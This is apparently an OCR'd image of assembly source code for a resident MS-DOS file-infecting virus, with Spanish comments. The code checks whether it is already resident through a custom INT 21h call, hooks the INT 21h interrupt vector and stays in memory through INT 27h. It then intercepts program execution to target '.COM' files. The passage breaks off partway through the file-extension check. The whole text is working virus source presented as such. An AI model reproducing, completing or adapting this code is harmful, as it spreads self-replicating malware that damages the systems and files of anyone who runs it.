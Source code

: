                     .model tiny

                    assume cs:virus, ds:virus

          virus     segment byte public 'CODE'

                    org 100h

         start:     mov ax, 0ABCDh                    ; | AX = 0ABCDh  
                    int 21h                           ; |_DOS API - Llamar servicio de reconocimiento del virus
                    
                    cmp ax, 029Ah                     ; verificar código de respuesta  
                    jne infect_int21h                 ; si no es 666 (29Ah), infectar INT 21h
                    
                    mov ah, 00h                       ; | AH = 00h  
                    int 21h                           ; |_DOS API - Retornar a DOS 

 infect_int21h:     mov ah, 35h                       ; | AH = 35h  
                    mov al, 21h                       ; | AL = número de interrupción, 21h  
                    int 21h                           ; |_DOS API - Obtener vector en ES:BX
                    
                    mov [vector_int21], bx            ; guardar vector original de INT 21h  
                    mov [vector_int21 + 2], es
                    
                    mov ah, 25h                       ; | AH = 25h  
                    mov al, 21h                       ; | AL = número de interrupción, 21h  
                    mov dx, offset handler_int21h     ; | DS:DX -> dirección del nuevo handler: handler_int21h  
                    int 21h                           ; |_DOS API - Cambiar vector
                    
                                                      ; | CS = segmento de PSP  
                    mov dx, offset eof                ; | DX = Tamaño de porción residente (bytes)  
                    int 27h                           ; |_DOS API - Termina el programa y lo deja en memoria 

handler_int21h:     cmp ax, 0ABCDh                    ; llamada de verificación del virus:  
                    je service_ABCD                   ; responder y retornar  
                    cmp ax, 4B00h                     ; llamada para ejecutar archivo:  
                    je infect_file                    ; infectar y delegar  
                    jmp dword ptr cs:[vector_int21]   ; en otro caso, delegar al handler original de INT 21h 

  service_ABCD:     mov ax, 029Ah                     ; código de respuesta: 666 (29Ah)  
                    iret                              ; retornar de la interrupción

   infect_file:     pushf  
                    call dword ptr cs:[vector_int21]  ; simular INT 21h para ejecutar archivo

                    pushf  
                    pop cs:[ret_EFLAGS]
                    
                    push ax                           ; guardar registros que serán utilizados  
                    push bx  
                    push cx  
                    push dx  
                    push si  
                    push ds  
                                                      ; por la llamada AX=4B00h, DS:DX apunta al nombre del archivo  
                    mov si, dx                        ; verificar que sea extensión ".COM"  
      loop_str:     lodsb  
                    or al, al  
                    jz close_file  
                    cmp al, '.';  
                    jne loop_str  
                    lodsb  
                    cmp al, 'C';  
                    jne close_file  
                    lodsb  
                    cmp al, 'O';  
                    jne close_file  
                    lodsb  
                    cmp al, 'M'  
                    jne close_file 
                    